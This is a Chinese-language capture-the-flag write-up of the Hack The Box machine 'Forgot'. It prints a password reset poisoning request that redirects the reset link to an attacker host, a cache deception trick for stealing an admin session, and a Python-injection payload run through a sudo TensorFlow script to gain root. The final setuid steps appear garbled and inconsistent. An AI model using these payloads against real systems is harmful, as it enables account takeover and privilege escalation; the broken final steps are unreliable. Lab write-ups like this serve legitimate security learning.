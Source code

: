 ```yaml
---
title: 'HTB:Forgot'
date: 2023-03-09 16:38:55
tags: [HTB,学习笔记,刷题,靶场]
published: true
hideInList: false
feature: 
isTop: false
---
```

# HTB：Forgot

## Recon

端口扫描结果


1.nmap扫描结果：
```shell
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
````

2. rustscan扫描结果

```shell
PORT   STATE SERVICE txt
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```


子域名扫描：

wfuzz
```lua
000000108:   302        5 L      22 W       189 Ch      "home"                                                                                                                      
000000550:   302        5 L      22 W       189 Ch      "tickets"                                                                                                                   
000005034:   200        245 L    484 W      5189 Ch     "login"                                                                                                                     

000023937:   503        14 L     28 W       283 Ch      "darkeye"                                                                                                                   
000023938:   503        14 L     28 W       284 Ch      "locblog"                                                                                                                   
000023933:   503        14 L     28 W       284 Ch      "needlock"                                                                                                                  
000023936:   503        14 L     28 W       283 Ch      "crs"                                                                                                                       
000023935:   503        14 L     28 W       283 Ch      "krename"                                                                                                                   
000023932:   503        14 L     28 W       283 Ch      "newsfighter"                                                                                                               
000023929:   503        14 L     28 W       283 Ch      "using_libraries"                                                                                                           
000023931:   503        14 L     28 W       283 Ch      "anonynews"                                                                                                                 
000023952:   503        14 L     28 W       284 Ch      "oxine"                                                                                                                     
000023943:   503        14 L     28 W       284 Ch      "im2html"                                                                                                                   
000023947:   503        14 L     28 W       283 Ch      "1970_xeno"                                                                                                                 
000023950:   503        14 L     28 W       284 Ch      "cowloop"                                                                                                                   
000023941:   503        14 L     28 W       283 Ch      "sicons"                                                                                                                    
000023953:   503        14 L     28 W       283 Ch      "mesa"                                                                                                                      
000023954:   503        14 L     28 W       284 Ch      "blender"                                                                                                                   
000023956:   503        14 L     28 W       284 Ch      "devil"                                                                                                                     
000023955:   503        14 L     28 W       284 Ch      "cyberx3d-c"                                                                                                                
000023957:   503        14 L     28 W       284 Ch      "freewrl"                                                                                                                   
000023961:   503        14 L     28 W       284 Ch      "openvrml"                                                                                                                  
000023963:   503        14 L     28 W       283 Ch      "vrml2pov"                                                                                                                  
000023958:   503        14 L     28 W       283 Ch      "freewrlduneinputdevice"                                                                                                    
000023959:   503        14 L     28 W       284 Ch      "libsball"                                                                                                                  
000023964:   503        14 L     28 W       284 Ch      "wings3d"                                                                                                                   
000023965:   503        14 L     28 W       283 Ch      "xigax"                                                                                                                     
000023966:   503        14 L     28 W       283 Ch      "xj3d"                                                                                                                      
000023967:   503        14 L     28 W       283 Ch      "blogpinger"                                                                                                                
000050631:   200        260 L    517 W      5523 Ch     "reset"                                                                                                                     
000065584:   200        252 L    498 W      5227 Ch     "forgot"
````


技术框架

- `werkzeug 2.1.2`
- `python3.8.10`



网站浏览，看源代码，看架构，看功能点。发现了注释

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/20230306.png)

## Web探索 到拿到user flag

### Password reset poisoning

发送以下数据包（修改host地址）：

```
GET /forgot?username=robert-dev-1450212 HTTP/1.1
Host: 你的host地址
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/.png),*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.188/forgot
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
sec-gpc: 1
Connection: close
```

然后本地nc -lvp监听80

### /tickets - static cache

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303061.png)

Varnish/6.2 是用于缓存一些静态资源的。并且历史也爆过存在缓存投毒的漏洞（cache poisoning） ，去查找被缓存的静态资源

> There will be some kind of rule, typically matching on the URL, to define what is cached and what is not. I’ll do some tests to see if I can figure out more about that rule.

查找 `cache-control` 的header，那么为什么要看这个呢？不妨问问Notion AI

问AI关于cache-control的内容如下：

`Cache-Control` 是HTTP协议中的一个用于控制缓存的header。通过设置不同的值，可以控制浏览器或代理服务器是否缓存响应，以及缓存多长时间等。而 `Age` 是HTTP协议中的一个响应头部，用于表示缓存对象在代理服务器或网关中存储的时间。它的值以秒为单位。

一番确定后发现Varnish会去匹配string `/static` 进行缓存

然后在 `/static` 下创建缓存目录后，发现cookie的部分被用到了缓存技术栈中

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303062.png)

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303063.png)

这个时候开个新的匿名模式浏览器，访问这个static下的资源，然后再访问 `/tickets` 是可以浏览到tickets页面的（但是并不应该浏览到）

### /admin_tickets

**发现有不能点的要看一下源代码**，发现了链接：[http://10.10.11.188/admin_tickets](http://10.10.11.188/admin_tickets)

点进去跳转 [`http://10.10.11.188/home?err=ACCESS_DENIED`](http://10.10.11.188/home?err=ACCESS_DENIED)

### 钓鱼：等待链接

创建一个不存在的路径：

- [`http://10.10.11.188/Admin_tickets/Static/Meow`](http://10.10.11.188/Admin_tickets/Static/Meow)

然后等管理员访问

看见有session访问这个页面。（记得storage清session）

然后看到了页面的auth .这块真的好坑，网页会自动大写首字母。所以看密码的话，还是看raw response的好。

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303064.png)

## Esclation

`sudo -l` 看下权限

```
Matching Defaults entries for diego on forgot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User diego may run the following commands on forgot:
    (ALL) NOPASSWD: /opt/security/ml_security.py
diego@forgot:~$
```

看了下py代码

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303065.png)

通过函数 `Xnew = getVec(data)` 分析网页特征，并且保存在 `Xnew` 这个变量里。然后再分别加载不同模型，用什么 `loaded_model`函数

最后，根据特征数值计算，选择 `score` 大于0.5的，判断其为 不安全的：

```lua
preprocess_input_exprs_arg_string(data[i],safe=False)
```

这里用到了机器学习的库 `tensorflow.python.tools.saved_model_cli`

[https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408](https://security.snyk.io/vuln/SNYK-PYTHON-TENSORFLOW-2841408)

看github上commits的变更，发现了该函数有修改，默认safe为True：

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303066.png)

之前会直接执行 `expr`

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303067.png)

然后关于这里input的介绍：

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303068.png)

```lua
input_key, expr = input_raw.split('=', 1) 
```

构造一个类似与 `input_key=<python expression>` 基于此基础修改POC,并且要保证其内部的触发xss检测

```lua
to=Admin&link=/test&txt=abc=exec("""import os\nos.system("touch /tmp/114514")""");#<script>alert(1)</script>&issue=Getting error while accessing search feature in enterprise platform.
```

![20230306](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_3/202303069.png)

同时服务端运行 `sudo /opt/security/ml_security.py 2>/dev/null`

然后发现了文件夹下有我们的 114514 这个文件，

接着获取权限：这里的 `4777` 下的 `4` 代表 `Set UID` （可执行文件执行时，拥有文件所有者的权限。）

```
abc=exec("""import os\nos.system("chmod 4
.777 /tmp/114514")""");#<script>alert(1)</script>
```

运行：

```
diego@forgot:/tmp$ ./114514 -p
```

此时看id已经是root了

## Reference
- https://0xdf.gitlab.io/2023/03/04/htb-forgot.html



